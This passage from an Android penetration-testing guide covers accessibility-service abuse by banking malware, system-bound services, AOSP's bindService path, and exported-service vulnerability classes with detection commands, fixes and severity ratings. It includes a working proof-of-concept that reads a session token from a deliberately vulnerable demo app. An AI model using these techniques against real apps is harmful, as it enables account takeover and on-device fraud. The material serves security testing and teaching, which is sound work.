The pattern is old, well documented, and still effective:

1. The app asks the user to enable accessibility, with a plausible pretext ("enable to allow the app
   to detect scams", "required for the free version to remove ads"). Some families launch the
   Accessibility settings screen directly and overlay instructions on top of it.
2. Once enabled, it watches for a target package coming to the foreground.
3. On a banking app, it either reads the credentials directly from the view tree, or draws an overlay
   that mimics the login screen, or both.
4. `canPerformGestures` lets it accept its own permission dialogs, dismiss warnings, and — in the
   worst families — drive a transfer end to end with the screen dimmed by an overlay.

This is the mechanism behind the on-device-fraud pattern that displaced credential theft in mobile
banking fraud: the transaction originates from the victim's own device, with the victim's own
session, which defeats device fingerprinting and most behavioural fraud rules.

> **⚠️ Warning**
> Do not attach a CVE identifier to "accessibility abuse". It is not a vulnerability; it is a
> platform capability used as intended by an app the user was tricked into enabling. Writing it up
> as a CVE is wrong and will be rejected. Write it up as a **threat model item** and, for an app you
> are testing, as a **missing defence**: the question for the developer is not "is accessibility a
> bug" but "what does your app do when a non-system accessibility service is active".

#### What defenders can actually do — and the honest limits

| Defence | Effect | Limit |
|---|---|---|
| `android:importantForAccessibility="noHideDescendants"` on sensitive views | The view subtree is not exposed in the accessibility tree | Only helps for the marked views; developers mark few |
| `FLAG_SECURE` on the window | Blocks screenshots and non-system-overlay capture | Does **not** remove the view from the accessibility tree |
| `View.setFilterTouchesWhenObscured(true)` / `onFilterTouchEventForSecurity` | Drops touches delivered while an overlay is on top | Defeats tapjacking, not accessibility-synthesised gestures, which are not obscured touches |
| Enumerate enabled accessibility services and warn | Detects the *presence* of a non-system service | Trivially enumerable list, easily allow-listed by attackers who match a known-good name; also punishes real screen-reader users. Use it to inform, not to block |
| Server-side transaction anomaly detection | Catches on-device fraud where device signals cannot | Not the app developer's decision alone |

Enumeration, since testers are always asked for it:

```bash
# adb shell — what is enabled right now. Measured output on the test device:
settings get secure enabled_accessibility_services      # -> null   (none enabled)
settings get secure accessibility_enabled               # -> 0

# every service on the device that DECLARES itself as an accessibility service
pm query-services -a android.accessibilityservice.AccessibilityService
```

On the API 30 test device that last command returned **9 declared accessibility services**, all
system or Google components, all correctly guarded:

```text
9 services found:
  Service #0:
    ServiceInfo:
      name=com.android.settings.accessibility.accessibilitymenu.AccessibilityMenuService
      packageName=com.android.settings
      enabled=true exported=true directBootAware=true
      permission=android.permission.BIND_ACCESSIBILITY_SERVICE
```

That last line is the shape you want to see. `exported=true` on an accessibility service is
**required** — the system must be able to bind it — and it is safe precisely because the
`permission` attribute names a permission only the system holds. This is the canonical example of
why "exported" alone is not a finding.

### 3.14 The other services the system binds

Accessibility is the most powerful, but the pattern — *declare a service, guard it with a
`BIND_*` permission only the system holds, and the platform calls into you* — is used a dozen times.
Each one is a privilege surface, and each one is a manifest line a tester should recognise on sight.

| Base class | Guarding permission | What the app gains |
|---|---|---|
| `AccessibilityService` | `BIND_ACCESSIBILITY_SERVICE` | Read and drive the whole UI (§3.13) |
| `NotificationListenerService` | `BIND_NOTIFICATION_LISTENER_SERVICE` | Read **every** notification, including message contents and one-time codes; dismiss them |
| `InputMethodService` | `BIND_INPUT_METHOD` | It *is* the keyboard. Every keystroke in every app |
| `VpnService` | `BIND_VPN_SERVICE` | All device traffic through the app's tunnel |
| `DeviceAdminReceiver` / device owner | `BIND_DEVICE_ADMIN` | Lock, wipe, password policy, camera disable |
| `TileService` | `BIND_QUICK_SETTINGS_TILE` | A quick-settings tile; modest, but a UI surface outside the app |
| `AutofillService` | `BIND_AUTOFILL_SERVICE` | Sees form structure and fills credentials |
| `HostApduService` | `BIND_NFC_SERVICE` | Responds to NFC readers as a card |
| `MediaBrowserService` | (often none) | Media browsing; **frequently exported with no permission**, and a real surface |
| `WallpaperService` | `BIND_WALLPAPER` | Draws the wallpaper; long-lived process |
| `JobService` | `BIND_JOB_SERVICE` | Scheduled work; the modern replacement for background services |
| `PrintService`, `DreamService`, `ConditionProviderService`, `VoiceInteractionService` | various `BIND_*` | Each its own surface |

On the API 30 test device, the counts across the whole system were measured. Of the **541** exported
services reachable by an intent action, the top guarding permissions were:

```text
   331  (no permission at all)
    22  com.xiaomi.permission.CLOUD_MANAGER
    17  miui.permission.USE_INTERNAL_GENERAL_API
    11  android.permission.BIND_QUICK_SETTINGS_TILE
     9  android.permission.BIND_ACCESSIBILITY_SERVICE
     6  android.permission.BIND_WALLPAPER
     5  android.permission.INTERNET
     4  android.permission.BIND_NOTIFICATION_LISTENER_SERVICE
     4  android.permission.BIND_NFC_SERVICE
     4  android.permission.BIND_INPUT_METHOD
```

`android.permission.INTERNET` appearing as a *guard* on five services is worth a raised eyebrow:
`INTERNET` is a `normal` permission held by essentially every app on the device. Using it as
`android:permission` on a service is functionally identical to using no permission at all, and it is
a pattern you will see in the field. §5.3.3 treats it as its own vulnerability class.

### 3.15 `JobScheduler`, `WorkManager` and why background services are shrinking

Not a digression: it changes what you will *find*.

Since API 26 made background `startService` unusable, the platform's answer for deferrable background
work has been `JobScheduler` (framework) and `WorkManager` (Jetpack, which uses `JobScheduler`
underneath). Both express work as a `JobService` — still a `Service` subclass, still declared in the
manifest, still guarded by `BIND_JOB_SERVICE` so only the system may bind it.

```xml
<service android:name=".SyncJobService"
         android:permission="android.permission.BIND_JOB_SERVICE"
         android:exported="false"/>
```

For a tester this means two things. First, a modern app has **fewer** exported services and more
`JobService` entries, which are correctly guarded and rarely interesting on their own. Second, the
interesting surface has moved: a `JobService` that acts on parameters from `JobParameters` extras
which some *other* component wrote is still reachable, one step removed. Follow the data, not the
component type.

`dumpsys jobscheduler` enumerates scheduled jobs with their constraints and owning packages, and is
a good source of "what does this app do when nobody is watching".

### 3.16 Version matrix

**M** = measured on the API 30 test device for this chapter. **D** = documented; the device cannot
exhibit it.

| API | Release | Change | Status |
|---|---|---|---|
| 5 | 2.0 | `onStartCommand` replaces `onStart`; return values introduced | D |
| 14 | 4.0 | `onTaskRemoved` / `stopWithTask` | D |
| 21 | 5.0 | `Message.sendingUid` populated by the framework | D |
| 24 | 7.0 | `AccessibilityService.dispatchGesture` — synthetic gestures | D |
| 26 | 8.0 | **Background `startService` throws.** `startForegroundService` + 5-second promotion deadline. Notification channels required | D |
| 26 | 8.0 | `ServiceConnection.onBindingDied` added | D |
| 28 | 9.0 | `FOREGROUND_SERVICE` permission required for `startForeground` | D |
| 28 | 9.0 | `ServiceConnection.onNullBinding` added — `onBind` returning null is now observable | D |
| 29 | 10 | `foregroundServiceType` introduced (`dataSync`, `mediaPlayback`, `phoneCall`, `location`, `connectedDevice`, `mediaProjection`). While-in-use restrictions for location | D |
| 29 | 10 | `BIND_INCLUDE_CAPABILITIES`, `BIND_NOT_PERCEPTIBLE`. App Zygote (`useAppZygote`) | **M** (App Zygote UIDs observed at 90000) |
| 29 | 10 | `Message.sendingPid` populated | D |
| 30 | 11 | `camera` and `microphone` foreground service types. **Package visibility filtering** for `targetSdk` 30+ | **M** (§3.6.1) |
| 30 | 11 | `dumpsys activity services` still prints **no** `foregroundServiceType` field | **M** (§3.10) |
| 31 | 12 | `android:exported` **must be declared explicitly** for any component with an intent filter, or the app fails to install. Foreground services cannot be started from the background | D |
| 31 | 12 | `PendingIntent` mutability must be declared (`FLAG_IMMUTABLE` / `FLAG_MUTABLE`) — affects services started via `PendingIntent`. See [26](../26-Intent/README.md) | D |
| 33 | 13 | Foreground service notifications become user-dismissible (the service keeps running) | D |
| 34 | 14 | **`foregroundServiceType` mandatory** for `targetSdk` 34+; per-type permissions; `shortService` with a ~3-minute cap; `dataSync` time-limited | D |
| 35 | 15 | Further `dataSync`/`mediaProcessing` timeout tightening; `FOREGROUND_SERVICE_TYPE_SPECIAL_USE` justification enforced at review | D |

> **⚠️ Warning**
> Do not repeat the API 31 or API 34 rows as though you verified them. This chapter's device is API
> 30 and physically cannot demonstrate them. If a client's estate is on Android 14, re-measure on
> Android 14. This repository has itself carried a version-gated claim forward from a device that
> had been swapped out: two physical phones were in rotation — a Redmi `M2101K6P` on Android 11 /
> API 30 and an `i9000S` on Android 13 / API 33 — and they were exchanged mid-session without
> warning, so rows measured on one were repeated as though they came from the other. The rule that
> came out of it is to mark every row with the API level that produced it, and to run
> `adb devices -l && adb shell getprop ro.build.version.sdk` before quoting any version-gated claim.

---
## 4. Source Code Walkthrough (AOSP)

No line numbers appear anywhere in this chapter. They change every release and a confident wrong line
number is worse than none. File paths are stable and are cited freely.

### 4.1 Where everything lives

| Path | What is in it |
|---|---|
| `frameworks/base/services/core/java/com/android/server/am/ActiveServices.java` | **The file.** Every decision about starting, binding, stopping, foregrounding and killing a service is here: `startServiceLocked`, `bindServiceLocked`, `publishServiceLocked`, `unbindServiceLocked`, `setServiceForegroundLocked`, `bringUpServiceLocked`, `serviceDoneExecutingLocked`, and the permission and background-start gates |
| `frameworks/base/services/core/java/com/android/server/am/ServiceRecord.java` | The `system_server` object representing one service instance. Holds `startRequested`, `callStart`, `lastStartId`, `isForeground`, `foregroundId`, `foregroundNoti` — every field you see in `dumpsys activity services` |
| `frameworks/base/services/core/java/com/android/server/am/IntentBindRecord.java` | One per **filter-distinct Intent** used to bind a service. This is the caching in §3.3 |
| `frameworks/base/services/core/java/com/android/server/am/AppBindRecord.java` | One per (IntentBindRecord, client process) pair |
| `frameworks/base/services/core/java/com/android/server/am/ConnectionRecord.java` | One per `bindService` call. Holds the bind flags |
| `frameworks/base/services/core/java/com/android/server/am/ActivityManagerService.java` | `bindService`, `startService`, `stopService`, `setServiceForeground` — the Binder entry points that delegate to `ActiveServices` |
| `frameworks/base/core/java/android/app/ContextImpl.java` | The client side: `startServiceCommon`, `bindServiceCommon`, and the `getServiceDispatcher` call that turns your `ServiceConnection` into an `IServiceConnection` |
| `frameworks/base/core/java/android/app/LoadedApk.java` | `ServiceDispatcher` and its `InnerConnection` — a static inner class holding a **weak reference** to the dispatcher, which is why a `ServiceConnection` you do not keep a strong reference to stops working |
| `frameworks/base/core/java/android/app/ActivityThread.java` | `handleCreateService`, `handleBindService`, `handleServiceArgs`, `handleUnbindService`, `handleStopService` — the target-process side, all on the main thread |
| `frameworks/base/core/java/android/app/Service.java` | The class you subclass. `startForeground`, `stopSelf`, `stopSelfResult`, and the `START_*` constants |
| `frameworks/base/core/java/android/app/IApplicationThread.aidl` | The interface `system_server` calls **into your app** on: `scheduleCreateService`, `scheduleBindService`, `scheduleServiceArgs`, `scheduleUnbindService` |
| `frameworks/base/core/java/android/app/IServiceConnection.aidl` | The one-method interface `system_server` calls to deliver `connected(name, binder, dead)` |
| `frameworks/base/core/java/android/os/Messenger.java` and `IMessenger.aidl` | `Messenger` is a one-method AIDL interface wrapping a `Handler` |
| `frameworks/base/core/java/android/os/Handler.java` | Where `msg.sendingUid` is honoured when the message is dispatched |
| `frameworks/base/core/java/android/accessibilityservice/AccessibilityService.java` | The app-side base class, and `AccessibilityServiceInfo.java` next to it for the capability flags |
| `frameworks/base/services/accessibility/java/com/android/server/accessibility/AccessibilityManagerService.java` | The system side that binds enabled accessibility services and enforces `BIND_ACCESSIBILITY_SERVICE` |
| `frameworks/base/services/core/java/com/android/server/am/ProcessList.java` | The `*_ADJ` constants that decide what gets killed first, including `SERVICE_ADJ` and `SERVICE_B_ADJ` |
| `system/tools/aidl/` | The AIDL compiler. Read its Java generator once and you will recognise every `Stub` you ever see in JADX |

### 4.2 One `bindService`, traced from your code to the target's `onBind`

**Step 1 — the client's `Context`.** `ContextImpl.bindServiceCommon` does three things before it
talks to anyone: it validates the `Intent`, it converts your `ServiceConnection` into an
`IServiceConnection` Binder object, and it calls `intent.prepareToLeaveProcess(this)`.

```java
// frameworks/base/core/java/android/app/ContextImpl.java — shape, abridged
private boolean bindServiceCommon(Intent service, ServiceConnection conn, int flags, ...) {
    IServiceConnection sd = mPackageInfo.getServiceDispatcher(conn, getOuterContext(), handler, flags);
    validateServiceIntent(service);
    service.prepareToLeaveProcess(this);
    int res = ActivityManager.getService().bindIsolatedService(
            mMainThread.getApplicationThread(), getActivityToken(), service,
            service.resolveTypeIfNeeded(getContentResolver()), sd, flags, instanceName, ...);
    if (res < 0) throw new SecurityException("Not allowed to bind to service " + service);
    return res != 0;
}
```

Two details that explain measured behaviour from §3.6:

- **`res < 0` throws, `res == 0` returns false.** That is the exact difference between the
  `SecurityException` we measured on `MiuiWifiService` and the silent `false` we measured for a
  package-visibility-filtered target. The system distinguishes "refused" from "not found", and
  visibility filtering makes a real component look like a missing one.
- `getServiceDispatcher` is where your `ServiceConnection` gains a Binder identity. `LoadedApk`
  caches these per (connection, context), which is why binding the same `ServiceConnection` twice
  without unbinding leaks a connection and why unbinding it twice throws
  `IllegalArgumentException: Service not registered`.

**Step 2 — `system_server` decides.** `ActivityManagerService.bindIsolatedService` forwards into
`ActiveServices.bindServiceLocked`. That method, in order:

1. Resolves the `Intent` to a `ServiceInfo` through `PackageManager`, **as the calling UID** — which
   is where package-visibility filtering happens. A filtered package yields `null`, and `null` is
   returned to the client as `0`, i.e. `false`.
2. Checks `exported`. If the service is not exported and the caller's UID differs from the service's
   UID, it refuses.
3. Checks `android:permission` with `checkComponentPermission`, and any `<uses-permission>`-style
   URI grants attached to the Intent.
4. Applies the background-start and foreground-service policy for the caller's current process state.
5. Creates or finds the `ServiceRecord`, the `IntentBindRecord` (keyed by `Intent.filterEquals`), the
   `AppBindRecord` and a new `ConnectionRecord`.
6. If `BIND_AUTO_CREATE` is set, calls `bringUpServiceLocked`, which starts the process via
   `ProcessList.startProcessLocked` if needed and schedules creation.

**Step 3 — the target process creates the service.** `ActivityThread.handleCreateService` runs on the
target's **main thread**. It loads the class through the app's `ClassLoader`, calls `attach(...)`, and
calls `onCreate()`.

```java
// frameworks/base/core/java/android/app/ActivityThread.java — shape, abridged
private void handleCreateService(CreateServiceData data) {
    LoadedApk packageInfo = getPackageInfoNoCheck(data.info.applicationInfo, ...);
    Service service = packageInfo.getAppFactory()
            .instantiateService(cl, data.info.name, data.intent);
    ContextImpl context = ContextImpl.createAppContext(this, packageInfo, data.info.name);
    service.attach(context, this, data.info.name, data.token, app,
                   ActivityManager.getService());
    service.onCreate();
    mServices.put(data.token, service);
    ActivityManager.getService().serviceDoneExecuting(
            data.token, SERVICE_DONE_EXECUTING_ANON, 0, 0);
}
```

**Step 4 — `onBind`.** `handleBindService` looks the service up by token and calls `onBind`, then
reports the result back.

```java
// frameworks/base/core/java/android/app/ActivityThread.java — shape, abridged
private void handleBindService(BindServiceData data) {
    Service s = mServices.get(data.token);
    if (!data.rebind) {
        IBinder binder = s.onBind(data.intent);
        ActivityManager.getService().publishService(data.token, data.intent, binder);
    } else {
        s.onRebind(data.intent);
        ActivityManager.getService().serviceDoneExecuting(data.token, ...);
    }
}
```

**This is the code behind the §3.7 measurement.** `onBind` is called from a method that is itself
executing a transaction from `system_server`, and by the time the app's main-thread handler runs the
message, the calling identity has been reset. The client's UID is nowhere in this call path. It is
not that the framework hides it from you; it is that it is not there.

**Step 5 — publication and delivery.** `ActiveServices.publishServiceLocked` stores the binder on the
`IntentBindRecord` and walks every `ConnectionRecord` attached to it, calling
`c.conn.connected(name, binder, false)`. That lands in `LoadedApk.ServiceDispatcher.connected`, which
posts to the client's handler and finally calls your `onServiceConnected`.

**Step 6 — everything after.** Nothing. The client holds a `BinderProxy` for the target's object.
Every subsequent call is client → kernel → target, and `system_server` never sees it again.

### 4.3 `ActiveServices` — the three gates, named

If you read one method in AOSP after this chapter, read `bindServiceLocked`. The gates it applies, in
the order it applies them, are the complete answer to "why can I not bind this":

| Gate | Failure mode observed by the client |
|---|---|
| Package visibility (resolution returns `null`) | `bindService` returns **`false`**, no exception, nothing in logcat |
| `exported=false` and caller UID differs | `SecurityException` from `ContextImpl` (`res < 0`) |
| `android:permission` not held | `SecurityException`, message names the component |
| Background foreground-service start policy (API 31+) | `ForegroundServiceStartNotAllowedException` on the *start* path |
| Instant-app restrictions | Refusal; instant apps have a much narrower reachable set |

### 4.4 `ServiceRecord` is what `dumpsys` prints

Reading `dumpsys activity services` is much easier once you know it is a field-by-field dump of
`ServiceRecord`. From the test device, one record with the fields annotated:

```text
# adb shell dumpsys activity services
* ServiceRecord{6bd0055 u0 com.google.android.gms/.nearby.presence.service.LifeCycleService}
  intent={cmp=com.google.android.gms/.nearby.presence.service.LifeCycleService}
  packageName=com.google.android.gms
  processName=com.google.android.gms.persistent        <- android:process, so a separate process
  app=ProcessRecord{5244c96 27584:com.google.android.gms.persistent/u0a185}   <- pid and uid
  allowWhileInUsePermissionInFgs=true                  <- capability delegation state
  startForegroundCount=0                               <- has never been promoted
  createTime=-1d3h58m27s585ms                          <- alive for over a day
  startRequested=true delayedStop=false stopIfKilled=false callStart=true lastStartId=3
  callerPackage=com.google.android.gms                 <- who started it
  restartCount=1 crashCount=0
```

And a bound one, showing the record hierarchy from §4.1 in the flesh:

```text
* ServiceRecord{1e9f96d u0 com.google.android.gms/.chimera.PersistentInternalBoundBrokerService}
  Bindings:
  * IntentBindRecord{ca81b6b CREATE}:                  <- one per filter-distinct Intent
    intent={act=com.google.android.gms.trustlet.onbody.service.BIND pkg=com.google.android.gms}
    binder=android.os.BinderProxy@bb076c8              <- what onBind returned
    requested=true received=true hasBound=true doRebind=false
    * Client AppBindRecord{503b361 ProcessRecord{...27584:com.google.android.gms.persistent/u0a185}}
      Per-process Connections:
        ConnectionRecord{dd8f633 u0 CR ...}            <- one per bindService call
  * IntentBindRecord{1411e86 CREATE}:                  <- a SECOND, because the action differs
    intent={act=com.google.android.gms.trustlet.bluetooth.service.BIND pkg=com.google.android.gms}
    binder=android.os.BinderProxy@1ab0347
```

Two `IntentBindRecord`s for one service, because the two clients used different actions and
`filterEquals` therefore said they were different Intents — the caching rule from §3.3, visible on a
real device. `onBind` was called twice and returned two different `BinderProxy` objects.

> **🔍 Pentester's Note**
> `binder=android.os.BinderProxy@…` in that dump tells you `onBind` returned **non-null** for that
> Intent. If a service shows `IntentBindRecord` entries with `binder=null`, `onBind` refused — which
> is a much stronger signal than any manifest attribute. It is also a way to discover the *exact
> Intent shape* the service accepts, which is the hard part of testing a service whose `onBind`
> switches on the action.

### 4.5 `Messenger` is one AIDL method

```java
// frameworks/base/core/java/android/os/Messenger.java — shape
public final class Messenger implements Parcelable {
    private final IMessenger mTarget;
    public Messenger(Handler target) { mTarget = target.getIMessenger(); }
    public void send(Message message) throws RemoteException { mTarget.send(message); }
    public IBinder getBinder() { return mTarget.asBinder(); }
}
```

`Handler.getIMessenger()` lazily creates a `MessengerImpl extends IMessenger.Stub` whose `send`
implementation is, in essence:

```java
// frameworks/base/core/java/android/os/Handler.java — shape
private final class MessengerImpl extends IMessenger.Stub {
    public void send(Message msg) {
        msg.sendingUid = Binder.getCallingUid();     // <- this is where sendingUid comes from
        Handler.this.sendMessage(msg);
    }
}
```

That one line is the whole security story of `Messenger`. The framework captures the kernel-stamped
UID at the only moment it is available — inside the `send` transaction — and attaches it to the
`Message`, so that `handleMessage`, running later on a different thread with no transaction in
flight, can still know who sent it. The field is there. Reading it is the developer's job.

### 4.6 One complete trace: from `getAuthToken()` to the kernel

Putting §4 together with [25 — Binder](../25-Binder/README.md), the full path of one call on a
service that has already been bound:

1. Client calls `vault.getAuthToken()` on an `IVaultService.Proxy`.
2. `Proxy.getAuthToken` obtains a `Parcel`, writes the interface token
   `com.example.notesvault.IVaultService`, and calls `mRemote.transact(TRANSACTION_getAuthToken, …)`.
3. `BinderProxy.transact` → JNI → `IPCThreadState::transact` → `writeTransactionData` →
   `ioctl(fd, BINDER_WRITE_READ, …)` on `/dev/binder`.
4. Kernel `binder_transaction()` copies the parcel into the target's mapped buffer and — the fact
   this whole chapter rests on — sets `t->sender_euid` from the sending task's credentials.
5. A thread in the target's Binder thread pool wakes in `IPCThreadState::joinThreadPool`, sets
   `mCallingUid` from the received transaction, and dispatches to `BBinder::transact`.
6. `Binder.execTransact` (Java) → `IVaultService.Stub.onTransact` → `data.enforceInterface(DESCRIPTOR)`
   → `case TRANSACTION_getAuthToken:` → **your method**.
7. Inside your method, `Binder.getCallingUid()` reads `mCallingUid`, which came from step 4.

Step 4 is where the number is created and steps 5–7 are where it is available. Every gap in that
chain — `onBind`, `onStartCommand`, a `Handler` callback, a background thread you spawned — is a
place where step 7 returns your own UID instead. That is the single mechanical fact that explains
every misplaced check in §5.

---

## 5. Security Perspective

### 5.1 The threat model, stated precisely

**Attacker:** an ordinary third-party app on the same device. No root, no ADB, no physical access, no
special permissions. It can declare `<queries>` or hold `QUERY_ALL_PACKAGES`, both of which are free.
It can write any `Intent`, any `Parcel`, any interface descriptor, and any transaction code.

**It cannot:** forge its UID (proved in [25](../25-Binder/README.md)), read the victim's data
directory (kernel DAC, [21](../21-App-Sandbox/README.md)), or bypass an SELinux `binder:call` denial.

**The asset:** whatever the service's methods touch — tokens, databases, files, hardware, or the
ability to make the victim app act.

**The question this chapter answers:** for each exported service, what can this attacker make it do?

### 5.2 The exported-service attack, end to end

Everything below was executed on the API 30 test device, from an unprivileged app at uid 10291
against a victim app at uid 10310. The attacker app's source is
[`examples/attacker-app/ProbeActivity.java`](examples/attacker-app/ProbeActivity.java); the victim is
[`examples/VaultService-vulnerable.java`](examples/VaultService-vulnerable.java).

**Step 1 — find it.** Either from the manifest (§8) or from the device:

```bash
# adb shell
dumpsys package r | sed -n '/Service Resolver Table:/,/Provider Resolver Table:/p'
pm query-services -a com.example.notesvault.BIND_VAULT
```

**Step 2 — bind it.** No AIDL file, no dependency on the target, no generated code:

```java
Intent i = new Intent();
i.setComponent(new ComponentName("com.example.notesvault",
                                 "com.example.notesvault.VaultService"));
bindService(i, conn, Context.BIND_AUTO_CREATE);
```

**Step 3 — read the descriptor off the binder you were given.** This is free and it is the whole
reverse-engineering step:

```java
String desc = svc.getInterfaceDescriptor();   // "com.example.notesvault.IVaultService"
```

**Step 4 — probe blind, and read the refusal.** An empty parcel at a low code:

```text
TX code=1 ok=true replyBytes=100
   exception=java.lang.SecurityException: Binder invocation to an incorrect interface
```

The refusal is informative. It tells you the object is an AIDL `Stub` (a raw `Binder` would have
returned `ok=false` with an empty reply), and it tells you the token check is the only thing in your
way.

**Step 5 — write the correct token and call.** The descriptor is a public string. Writing it is not
an exploit technique; it is the protocol.

```java
Parcel data = Parcel.obtain(), reply = Parcel.obtain();
data.writeInterfaceToken("com.example.notesvault.IVaultService");
svc.transact(1, data, reply, 0);      // code 1 = the FIRST method in the .aidl file
reply.readException();
String token = reply.readString();
```

**Measured result, both sides of the boundary:**

```text
# attacker, uid 10291
CH28: CONNECTED com.example.notesvault/...VaultService
      descriptor='com.example.notesvault.IVaultService'
CH28:   TOKEN-TX code=1 ok=true replyBytes=92 exception=(none)
        string='eyJhbGciOiJIUzI1NiJ9.SECRET-SESSION-TOKEN'

# victim, uid 10310 -- it logged its own caller
CH28VAULT: getAuthToken() called by uid=10291 pid=19831
```

Total attacker code: about twenty lines, no AIDL file, no knowledge of the victim beyond a component
name and a descriptor string the victim handed over on request.

> **🧠 Mental Model**
> The interface token is a **name tag, not a lock**. Its job is to stop a client accidentally calling
> transaction code 3 on the wrong object and corrupting memory. It is not a secret and it was never
> designed to be one — [25 §3.9](../25-Binder/README.md) makes the same point about Binder generally.
> If you find yourself writing "the interface token provides some protection" in a report, delete the
> sentence.

### 5.3 The vulnerability classes, each end to end

Each follows the repository's required shape: vulnerable code, why a competent developer wrote it,
static and dynamic detection, exploit, secure fix as code, honest severity.

#### 5.3.1 Unprotected AIDL method on an exported service

**Vulnerable code.**

```java
// AndroidManifest.xml
// <service android:name=".VaultService" android:exported="true">
//     <intent-filter><action android:name="com.example.notesvault.BIND_VAULT"/></intent-filter>
// </service>

private final IVaultService.Stub binder = new IVaultService.Stub() {
    @Override public String getAuthToken() {
        return prefs.getString("access_token", null);      // no caller check at all
    }
    @Override public void setSyncEndpoint(String url) {
        prefs.edit().putString("endpoint", url).apply();   // attacker chooses the server
    }
};
```

**Why a competent developer wrote this.** The service was built for the app's own home-screen widget,
which lives in the same APK. It was exported because the widget originally lived in a *second* APK
during a refactor, and the attribute was never taken back out. The methods have no checks because "we
are the only caller". Nothing in the build, the IDE, or Play's pre-launch report objects.

**Static detection.**

```bash
# host, on a jadx dump
grep -rn "extends .*\.Stub" out/sources/ | head
grep -rln "Binder.getCallingUid\|checkCallingPermission\|checkSignatures" out/sources/
# the finding is a Stub in the FIRST list whose file is NOT in the second
```

**Dynamic detection.** Bind it and call it — §5.2. Or use
[`scripts/service-recon.py`](scripts/service-recon.py) to rank every exported service on the device
by how little stands in your way.

**Exploit.** §5.2, measured.

**Secure fix.**

```java
private final IVaultService.Stub binder = new IVaultService.Stub() {
    @Override public String getAuthToken() {
        enforceSameSignature();                    // per method, inside the transaction
        return prefs.getString("access_token", null);
    }
    @Override public void setSyncEndpoint(String url) {
        enforceSameSignature();
        HttpUrl u = HttpUrl.parse(url);
        if (u == null || !"https".equals(u.scheme()) || !ALLOWED_HOSTS.contains(u.host())) {
            throw new IllegalArgumentException("endpoint not permitted");
        }
        prefs.edit().putString("endpoint", u.toString()).apply();
    }
};
```

Plus the manifest, because defence in depth here costs one line:

```xml
<permission android:name="com.example.permission.VAULT" android:protectionLevel="signature"/>
<service android:name=".VaultService"
         android:exported="true"
         android:permission="com.example.permission.VAULT">
    <intent-filter><action android:name="com.example.notesvault.BIND_VAULT"/></intent-filter>
</service>
```

**Honest severity.**

| Factor | Assessment |
|---|---|
| Technical severity | **Critical** in this instance, because the method returns a session token. It would be Low if the method returned the app's version string |
| Exploit complexity | Trivial. Twenty lines, no root, no user interaction |
| Preconditions | Exported service, no effective permission, attacker can see the package (free) |
| Business impact | Account takeover from any installed app, including one that asks for zero permissions and therefore raises no flags at install |
| Detection difficulty | Low for a tester who binds; **high for a reviewer**, because the manifest looks like a hundred other manifests |

> **⚠️ Warning**
> Severity is a property of the **method set**, not of the export. Grade each service by what its
> most dangerous reachable method does, and say so in the report. "Exported service — Critical" with
> no method named is the sort of finding that gets a whole report discounted.

#### 5.3.2 The caller check in the wrong place

**Vulnerable code.** Three variants, all real, all useless.

```java
// Variant A -- in onBind. Measured to compare the app against itself (section 3.7).
@Override public IBinder onBind(Intent i) {
    if (Binder.getCallingUid() != Process.myUid()) return null;
    return binder;
}

// Variant B -- in onStartCommand. Same problem.
@Override public int onStartCommand(Intent i, int f, int id) {
    if (Binder.getCallingUid() != MY_TRUSTED_UID) { stopSelf(); return START_NOT_STICKY; }
    ...
}

// Variant C -- on a background thread the Stub method spawned.
@Override public void doWork(String arg) {
    executor.execute(() -> {
        if (Binder.getCallingUid() != TRUSTED) return;   // no transaction in flight here
        reallyDoWork(arg);
    });
}
```

**Why a competent developer wrote this.** All three read correctly in English. `onBind` is "the door",
so checking at the door is intuitive. Variant C is worse luck than bad judgement: the developer knew
to check `getCallingUid()`, knew not to block the Binder thread, and combined the two correctly-learnt
rules into a bug.

**Static detection.**

```bash
# host -- getCallingUid inside a lifecycle callback is the smell
grep -rn -B8 "getCallingUid" out/sources/ | grep -E "onBind|onStartCommand|onCreate|onUnbind"
# and: getCallingUid inside a lambda or Runnable
grep -rn -A3 "execute(\|post(\|new Thread" out/sources/ | grep "getCallingUid"
```

**Dynamic detection.** [`scripts/trace-service-lifecycle.js`](scripts/trace-service-lifecycle.js)
prints the calling UID at every `onBind`, `onStartCommand` and `onTransact`. Variant A shows
`onBind uid=<the app's own uid>` while the attacker's UID appears at `onTransact` a millisecond
later. The two lines side by side *are* the proof, and they belong in the report.

**Exploit.** There is nothing to exploit *around* — the check never fires. Bind and call normally.

**Secure fix.** Move the check inside each `Stub` method (§3.8). For variant C, capture the identity
on the Binder thread and pass it in:

```java
@Override public void doWork(String arg) {
    final int callerUid = Binder.getCallingUid();     // captured on the Binder thread
    enforce(callerUid);                               // checked here, synchronously
    executor.execute(() -> reallyDoWork(callerUid, arg));
}
```

**Honest severity.** Identical to whatever the unprotected methods do — this class is a *reason* an
otherwise-correct-looking service is unprotected, not a separate impact. Its value in a report is
that it explains why the developer's own review missed it, which is what gets it fixed properly
rather than patched in one place.

#### 5.3.3 A permission that is not a permission

**Vulnerable code.**

```xml
<!-- Both of these are the same as no permission at all -->
<permission android:name="com.example.permission.SYNC" android:protectionLevel="normal"/>
<service android:name=".SyncService" android:exported="true"
         android:permission="com.example.permission.SYNC"/>

<service android:name=".UploadService" android:exported="true"
         android:permission="android.permission.INTERNET"/>
```

**Why a competent developer wrote this.** They wanted "only our apps", saw that `signature` requires
matching signing keys and worried about a future key rotation or a partner app, and chose `normal` as
the safe middle. It is not a middle. A `normal` permission is granted at install to any app that asks
for it, with no user prompt and no review.

`android:permission="android.permission.INTERNET"` is the same mistake wearing platform clothes.
`INTERNET` is `normal`, held by essentially every app. **On the API 30 test device, five exported
services were guarded by exactly this** (§3.14) — a real pattern, not a hypothetical.

**Static detection.**

```bash
# host -- for each service permission, look up its protection level
grep -o 'android:permission="[^"]*"' AndroidManifest.xml | sort -u
grep -A3 '<permission ' AndroidManifest.xml | grep -E 'name=|protectionLevel='
```

```bash
# adb shell -- on device, the authoritative answer
pm list permissions -f | grep -A4 "permission:com.example.permission.SYNC"
#   protectionLevel:normal          <- not a gate
```

**Exploit.** Add `<uses-permission android:name="com.example.permission.SYNC"/>` to the attacker's
manifest and bind. Nothing else changes.

**Secure fix.**

```xml
<permission android:name="com.example.permission.SYNC" android:protectionLevel="signature"/>
```

and, for the case that motivated the mistake — a partner app signed with a different key — use
`android:knownCerts` with `protectionLevel="signature|knownSigner"` (API 31+), or verify the caller's
signing certificate explicitly in each method with `PackageManager.hasSigningCertificate()`.

**Honest severity.** Again a function of the method set, but this class deserves a specific note in
the report: it is the one where the developer *tried*, which means the fix is a one-word change and
will actually get made. Lead with it.

#### 5.3.4 `Messenger` command dispatcher with no `sendingUid` check
